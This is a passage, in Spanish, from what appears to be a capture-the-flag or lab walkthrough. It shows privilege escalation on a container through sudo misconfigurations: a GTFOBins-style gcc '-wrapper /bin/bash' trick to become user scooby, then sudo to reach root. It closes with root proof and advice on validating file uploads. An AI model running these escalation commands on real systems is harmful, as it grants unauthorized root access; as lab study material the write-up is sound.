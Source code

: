 ```bash
# Comando para escalar al usuario: ( scooby )
User fred may run the following commands on be30e8fa0ab7:
    (scooby) NOPASSWD: /usr/bin/gcc
```

Ahora explotamos el binario:
```bash
sudo -u scooby /usr/bin/gcc -wrapper /bin/bash,-s .
```

###### Usuario `[ scooby ]`:

```bash
# Comando para escalar al usuario: ( root )
User scooby may run the following commands on be30e8fa0ab7:
    (root) NOPASSWD: /usr/bin/sudo
```

Ahora explotamos el binario:
```bash
sudo -u root /usr/bin/sudo /bin/bash
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@be30e8fa0ab7:/var/www/html# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a abusar de la subida de archivos en el servidor
2. Aprendimos a realizar un ataque de doble extension para subir un archivo malcioso

## Recomendaciones de Seguridad
- Validar correctamente la subida de archivos, Junto con las validaciones para las extensiones.